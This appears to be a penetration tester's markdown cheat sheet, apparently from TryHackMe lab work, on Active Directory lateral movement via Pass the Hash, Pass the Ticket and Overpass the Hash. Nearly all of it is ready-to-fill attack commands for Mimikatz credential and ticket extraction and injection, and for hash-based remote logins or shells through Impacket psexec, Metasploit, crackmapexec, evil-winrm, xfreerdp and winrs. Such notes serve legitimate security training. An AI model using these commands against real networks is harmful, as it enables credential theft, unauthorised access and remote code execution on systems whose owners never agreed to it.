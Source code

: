 # Pass The Hash
- As [[NetNTLM]] is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [[Active Directory/Credential Dumping/Mimikatz]] for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```

# Pass The Ticket
- Export ticket with:
```powershell
sekurlsa::tickets /export
```
- Inject ticket to current session:
```mimikatz
kerberos::ptt <ticket_id>
```
- Verify ticket with:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```

# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
```powershell
sekurlsa::ekeys
```
- For RC4 Hash
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<hash> /run:"<command>"
```
- For AES128
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<hash> /run:"<command>"
```
- For AES256
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<hash> /run:"<command>"
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).